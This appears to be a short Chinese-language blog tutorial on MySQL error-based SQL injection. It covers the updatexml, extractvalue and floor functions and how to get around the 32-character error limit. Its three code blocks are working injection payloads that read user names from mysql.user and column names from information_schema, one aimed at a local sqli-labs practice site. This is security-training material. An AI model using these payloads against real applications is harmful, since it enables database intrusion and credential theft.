 ```yaml
---
layout: post
title: MySQL报错注入
categories: [web,sql]
---
```

## 报错注入常用的函数
### updatexml()
### extractvalue()
### floor()
![4](/img/sql4.png)  
![5](/img/sql5.png)  
---

>XPath限制报错内容长度不能超过32个字符
>   常见的解决方法有：  
>	limit 分页  
>   substr()截取字符 
>	left(name,2)
>	right(name,2)
---
### 1.limit 分页
```sql
	?id=-1' and updatexml(1,concat(0x7e,  
	(select user  
	from mysql.user limit 1,1)),3) --+  
```
### 2.substr()截取字符
```sql
	?id=-1' and updatexml(1,concat(0x7e,  
	substr(  
		(select group_concat(user)  
		from mysql.user), 1 , 31)  
),3) --+  
``` 
### 3.not in排除字符
```sql
	http://192.168.3.7/sqli-labs-master/Less-5/?id=-1' and extractvalue(1,concat(0x7e,(select   group_concat(column_name) from information_schema.columns where table_name='users' and   column_name not in ('USER','CURRENT_CONNECTIONS','TOTAL_CONNECTIONS')),0x7e)) %23  
```
